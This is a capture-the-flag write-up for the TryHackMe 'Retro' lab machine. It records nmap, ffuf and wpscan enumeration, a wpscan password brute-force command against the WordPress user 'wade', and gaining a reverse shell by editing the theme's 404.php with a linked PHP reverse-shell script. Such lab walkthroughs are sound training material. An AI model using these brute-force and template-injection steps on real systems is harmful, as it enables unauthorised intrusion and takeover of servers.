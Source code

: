 # Retro

![image](https://user-images.githubusercontent.com/5285547/131119489-6feda4b6-44b3-41aa-b3fa-bcb22ece0b84.png)

Room link: https://tryhackme.com/room/retro

Room IP: 10.10.22.148  
*\* for me your's will be different*

## Enumeration


* Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

* -sCV

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-27T11:32:23+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-26T11:19:26
| Not valid after:  2022-02-25T11:19:26
| MD5:   9269 09a9 b05b 293f 4a56 f70c 66b0 c167
|_SHA-1: 1c04 1ffc e75d 5f9f f772 12eb 5fcc c808 1b53 a3ed
|_ssl-date: 2021-08-27T11:32:23+00:00; +1s from scanner time.
```
---

* ffuf

```
ffuf -u http://10.10.22.148/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -mc all -fc 404

retro                   [Status: 301, Size: 149, Words: 9, Lines: 2]
```

Scanning the directories shows /retro endpoint

---

* Port 80

http://10.10.22.148/retro

The page shows us lots of posts from a guy called Wade about classic gaming. 
I noticed the site urls are simular to how wordpress are laid out. There is a login link at the bottom that resolves to a wordpress login.  
This confirms my suspicion, time to get wp-scan out. 

```
wpscan --url http://10.10.22.148/retro/

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 
[i] User(s) Identified:

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)
```

We can see this is an IIS server (as confirmed in the nmap scan) and wade is the user.  
Let's try to brute his login for wordpress using wpscan

```
wpscan --url http://10.10.22.148/retro/ -U wade -P /usr/share/wordlists/rockyou.txt
```

While leaving the wpscan running, I checked out the web app further, where i noticed a strange comment. 

![image](https://user-images.githubusercontent.com/5285547/131134191-2fcbcebe-f271-4dd7-bbf4-7959c58dff63.png)

---

* Reverse shell

After logging into the admin portal, I first checked to see if I could edit a theme template, which I could. 
Editing the 404.php page with a php reverse shell (windows version: https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/php_reverse_shell.php) we can get a shell. 

Call after editing. 

```
http://10.10.22.148/retro/wp-content/themes/90s-retro/404.php
```



